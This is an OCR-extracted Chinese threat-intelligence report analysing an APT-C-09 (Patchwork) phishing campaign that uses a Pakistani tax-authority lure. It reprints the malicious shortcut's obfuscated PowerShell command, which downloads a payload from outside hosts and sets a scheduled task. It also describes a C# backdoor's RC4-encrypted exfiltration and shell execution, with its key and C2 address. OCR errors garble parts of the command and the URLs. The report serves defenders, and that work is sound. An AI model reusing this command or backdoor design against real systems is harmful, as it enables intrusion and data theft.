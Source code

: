 # APT-C-09（摩诃草）组织以巴基斯坦联邦税务局为诱饵的攻击活动分析  

原创高级威胁研究院360威胁情报中心2024-03-2118:20北京  

# APT-C-09  

# 摩诃草  

APT-C-09（摩诃草）又称、白象、Patchwork、Dropping Elephant，是一个具有南亚国家背景的APT组织，从2015年至今，该组织一直处于活跃状态，长期针对若干周边国家进行网络攻击活动，以窃取敏感信息为主。  

近期360高级威胁研究院再次发现了该组织针对周边国家的攻击样本，并捕获到基于C#的后门载荷，说明该组织正在对其武器库进行丰富和扩展。这类载荷在摩诃草历史攻击中比较少见，通过分析代码，我们发现该类组件应该是摩诃草组织新开发的第一阶段恶意后门，鉴于此情况，本文重点披露这类组件。  

## 一、攻击活动分析  

### 1.恶意载荷分析  

本次攻击行动使用的钓鱼文件信息如下所示：  

<html><body><table><tr><td>MD5</td><td>218d85723396ddddaf75fc5853338997</td></tr><tr><td>文件名称</td><td>Tax_I Deduction_Revised_Q1-2024.pdf.lnk</td></tr><tr><td>文件大小</td><td>3.58KB （3670字节）</td></tr><tr><td>文件类型</td><td>Lnk</td></tr></table></body></html>  

该lnk打开时会调用powershell执行恶意指令。  

RelativePath:. 1.\. .\Windows\System32\WindowsPowerShelI I\v1. 0\powershell. exe   
Arguments: -w""i 1 \$ProgressPreference = 'SilentlyContinue';i"'w''r "https://tyfk1. b-cdn. net/dox" -OutFile C:\Users\Public\Tax Deduction_Revised Q1-2024. pdf;s"'a'' p'' s C:\Users\Public\Tax Deduction Revised Q1-2024. pdf;i"'w'r "https://tyfk1. b-cdn. net/dix" -OutFile "C:\Windows\Tasks\dodo";r'e''n -Path "C:\Windows\Tasks\ dodo" -NewName "C:\Windows\Tasks\Services.exe";c'p' i C:\Users\Public\Tax Deduction Revised Q1-2024. pdf" destination \*;S"CH\*\*+·AS+KS+ /Create /Sc minute /Tn EdgeUpdate /tr 'C: \Windows\Tasks\Services';e 'r''a''s''e \*d?. ?n?  

该指令的功能为下载诱饵文件（https[:］//tyfkl.b-cdn.net/dox）和恶意载荷（https［:］//tyfk1.b-cdn.net/dix），并创建计划任务维持持久化。部分诱饵内容如下:  

# APT-C-09（摩诃草）组织以巴基斯坦联邦税务局为诱饵的攻击活动分析  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/29fd5a25f830427a421f36fcd32041e2dc5c292b667a011743054f905174d585.jpg)  

### 2.攻击组件分析  

Lnk文件下载的恶意载荷信息如下:  

<html><body><table><tr><td>MD5</td><td>6582a4df50948aaf2dcfbc6d8b84a58e</td></tr><tr><td>文件名称</td><td>Services.exe</td></tr><tr><td>文件大小</td><td>17.77KB (18192 字节)</td></tr><tr><td>文件类型</td><td>exe</td></tr></table></body></html>  

Services.exe带有数字签名“RUNSWITHSCISSORSLTD”，但该签名已无效，具体如下图所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/75ee703c266805cd508bcf7c2fdf29412b0ad52d1171817b33fb3edf46002e5c.jpg)  

该文件为.Net程序，其主要功能就是上传主机相关信息，以及执行Shell。文件运行之后，首先会创建一个名为“92dQhZhBSH”的互斥体，目的是避免多开，然后进入死循环持续运行，并且每次在运行主要流程前，都会休眠3秒。根据远控流程函数的命名“FirstStage”来看，该远控只是摩诃草组织攻击链路中的第一步。  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/d02c1f3684259090b886c95d75242a36066a957629c653236030baa7e1f33cc7.jpg)  
APT-C-09（摩诃草）组织以巴基斯坦联邦税务局为诱饵的攻击活动分析  

该函数首先会获取MAC地址和主机名，将两者进行拼接，然后计算其HASH，再依次进行RC4加密以及Base64编码，RC4秘钥为“abcdefghijklmnopqrstuvwxyzABCD12345678909876542”，然后分别获取公网IP，UserName，当前进程PID，当前路径，并依次进行Base64编码，将编码的值进行RC4加密，最后再次进行Base64编码，然后分别进行拼接字段，最后发送请求。  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/06fc36003472edaa834588b9740e19185ebdaac566b1ce3a87c463cca099239b.jpg)  

拼接字段和内容的对应关系如下：  

<html><body><table><tr><td>字段</td><td>内容</td></tr><tr><td>pirnb jd</td><td>MAC地址和主机名</td></tr><tr><td>nnb jfgde</td><td>公网IP</td></tr><tr><td>unamednksb</td><td>UserName</td></tr><tr><td>pid</td><td>当前PID</td></tr><tr><td>ispngjgfjgj</td><td>是否是第一次发送数据</td></tr><tr><td>ppathhdksf</td><td>当前路径</td></tr><tr><td>cmddkbjsjf</td><td>下发的命令(回传结果时候使用)</td></tr></table></body></html>  

然后读取响应报文，首先将报文Base64解码，然后在用RC4进行解密，得到了回传命令，用空格将回传的命令进行分割，并判断分割的第一个命令是否为“shell”，如果是，再用“「”符号，将剩余的命令进行分割，根据“「”符号的内容拼接需要执行的命令。  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/267c2fa833ff3d67db044145b9f1eeb9c1ddbfec181415f690672e4c3839883c.jpg)  

程序利用cmd.exe执行Shell，其原理是通过将需要执行的命令写入标准输入重定向中，执行完成之后，读取标准输出重定向的结果，如果执行失败，读取错误重定向的结果即可。  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/0cfe7ff2199a392629efcb767aa970688cff47fd4db4936881e53f88e5a6296b.jpg)  

然后将加密后的MAC地址，主机名，下发的命令，连同执行的结果进行回传，首先将执行结果依次用RC4，Base64进行加密。然后依次拼接，加密之后的MAC地址和主机名，命令执行的结果，以及下发的命令。并用POST的方式回传给C2(https[:］//kungkao.online/commKGylrY4ATzBDqQ58HYN6/CTFPNfmuMqz2vBw013swrcbJPn07GH. php) 。  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/4662e7e2d7cccae01d6c3ea8a3ef39c16f5295408bcbb5e6c08e670762459041.jpg)  

我们注意到ispngjgfjgj字段在第一次请求的时候为1，在回传命令结果的时候，值为0，我们猜测该字段是为了判断是否是第一次回传数据。  

![](https://cdn-mineru.openxlab.org.cn/extract/603058ed-54fc-4684-a0e4-57ce4b6c3c45/33cb90e1ee1aba6dea460e239098148d676675465f00e7726d693f744135e2d8.jpg)  

## 二、归属研判  

通过对样本整体分析，我们发现本次攻击行动与摩诃草组织之前使用的攻击手段相符合。  

1.恶意lnk的参数使用方式与摩柯草之前的攻击活动基本一致，都是从远端下载诱饵文档和恶意载荷，并创建计划任务实现持久化，并且下载使用的URL都带有b-cdn.net字符串。此外，恶意载荷所携带的签名“RUNSWITHSCISSORSLTD”在之前活动中也出现过。  

2.恶意载荷AES算法中的IV值与我们之前关于摩诃草的分析文章[1]里的值一致，均为“1234567891234567”。另外上传数据的URL格式也比较类似，使用的RC4算法在之前摩柯草活动中存在过，并且密钥开始部分有重叠，均为“abcdefghijklmnopqrstuvwxyzABCD1234567890987654”。  

最后结合样本上传地址为巴基斯坦，以及历史上摩诃草组织多次针对巴勒斯坦联邦税务局进行攻击，符合攻击者目标。因此有理由将其这类攻击归属于摩诃草组织。  

# 总结  

APT-C-09（摩诃草）组织从2013年被披露后，从未停止相关攻击活动，长期针对巴基斯坦等周边国家进行攻击，并且攻击目标和目的也都未发生改变，这也体现出幕后组织意志的坚定性，在最新的攻击样本中，我们观察到该组织使用C#编写的后门载荷，这进一步揭示了其在不断演进和提升技术水平的过程中，还在积极丰富其武器库，以更好地适应网络安全防护的不断升级。特别注意的是，目前捕获到的C#载荷功能并不复杂，后期该攻击者可能会逐步丰富其功能代码，我们也将持续关注该组织的攻击武器。  

360聚能过去20年实战经验及能力推出360安全云，目前，360安全云已实现对此类威胁的全面检出，全力守护千行百业数字安全。  

MD5 218d85723396ddddaf75fc5853338997 6582a4df50948aaf2dcfbc6d8b84a58e  

URL https: //tyfk1. b-cdn[. ]net/dox  

https: //tyfk1.b-cdn[. ]net/dix https: //kungkao . Jonline/commKGylrY4ATzBDqQ58HYN6/CTFPNfmuMqz2vBw013swrcbJPn07GH. php  

# 参考  

[1]  https: //mp. weixin. q. com/s/LOZTOz4Lo6cOpeD4mMC29g  